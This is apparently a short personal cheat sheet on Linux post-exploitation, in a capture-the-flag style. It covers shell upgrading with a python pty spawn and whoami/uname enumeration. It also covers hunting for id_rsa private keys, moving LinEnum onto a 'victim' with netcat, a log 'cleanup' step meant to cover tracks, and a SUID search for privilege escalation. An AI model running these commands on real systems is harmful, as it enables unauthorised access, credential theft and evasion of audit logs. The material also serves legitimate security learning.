 # Techniques used by cyber hackers

This is some knowledge related to what attackers are doing once they have access to a remote shell. The first goal is to access root/administrator privileges, which is called **privilege escalation**. Then, a hacker will try to access private data (credential), and other services (database...).

<hr class="sl">

## List of steps

This is just random notes for now, feel free to improve it.

<details class="details-e mt-4">
<summary>Step 1: bash</summary>

* `echo $0`: see the language of the shell
* `bash`: use bash
* `python -c 'import pty; pty.spawn("/bin/bash")'`: use bash (if bash isn't available)
</details>

<details class="details-e">
<summary>Step 2: Find which user you are using</summary>

* `whoami`: username
* `id`: username, group...
</details>

<details class="details-e">
<summary>Step: Identify the machine</summary>

* `cat /etc/*release`: see OS info
* `uname -a`: see machine info
* Look for process that may be vulnerable
* Try to exploit backup scripts (ex: crontab)
* Try to find folders/files which exploitable permissions
</details>

<details class="details-e">
<summary>Step: Look for data</summary>

* `find / -name id_rsa 2> /dev/null`: rsa credentials
* Look for saves/backups
* Look for private files/passwords
</details>

<details class="details-e">
<summary>Step 😎: use LinEnum</summary>

[LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) ([LineEnum GitHub](https://github.com/rebootuser/LinEnum/)) is a script doing most of the check mentioned above, and many more. You need to add it on the victim computer, 

* Try wget
* Try a text editor (ex: nano), and copy+paste
* Try FTP
* Try using nc/netcat (victim: `nc -l -p port > LinEnum.sh`, attacker: `nc IP 1337 < LinEnum.sh`)

Then simply do `chmod +x LinEnum.sh`, and `./LinEnum.sh`.
</details>

<details class="details-e">
<summary>Step cleanup</summary>

* `/var/log/auth.log`: ssh logs
* `/var/log/syslog`: firewall logs
* `/var/log/service`: "service" logs (ex: apache)
</details>

<hr class="sl">

## SUID exploits

SUID is a permission that make created by user, executed with the permissions of its creator. It means that a script created by root, will be having root privilege when being executed.

You should first find a vulnerable command,

```bash
$ find / -perm -u=s -type f 2>/dev/null
```

Then try to exploit it. The website [GTFOBins
](https://gtfobins.github.io/) is listing a lot of knowledge about what you can do with a lot of commands.